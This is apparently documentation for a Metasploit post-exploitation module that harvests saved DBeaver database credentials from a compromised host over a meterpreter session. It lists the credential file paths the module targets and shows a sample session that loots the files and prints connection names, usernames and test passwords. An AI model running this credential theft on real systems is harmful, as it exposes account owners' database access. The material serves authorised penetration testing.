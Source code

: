 ## Vulnerable Application
  DBeaver is free and open source universal database tool for developers and database administrators.
  Any operating system host with a `meterpreter` session and Dbeaver full version installed.
  If it works normally, the connection name, host, username and password saved in the certificate file will be printed

### Installation Steps

  1. Download the latest installer of Dbeaver (https://dbeaver.io/files/6.1.0/) and latest version.
      With version 6.1.3 as the dividing line, there are two different decryption algorithms.
  2. Select default installation
  3. Open the software and create a database connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: `run post/multi/gather/credentials/dbeaver`
  3. If the system has registry keys for Dbeaver passwords they will be printed out.

## Options

 **XML_FILE_PATH**

- Specify an XML configuration file.
- eg. `C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml` or
      `C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver-data-sources.xml`

 **JSON_DIR_PATH**

- Specifies the config dir path for Dbeaver.
- Ensure that there are two files `credentials-config.json` and `data-sources.json` under the directory
- eg. `"C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/dbeaver

[*] Gather Dbeaver Passwords on FireEye
[+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt
[*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml
[+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt
[+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt
[*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver
[+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt
[+] Dbeaver Password
================

Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type
----             --------    --------   ----  --------  --------        --        ---                                        ----
Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev
Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev
localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test
postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod

meterpreter > 
```
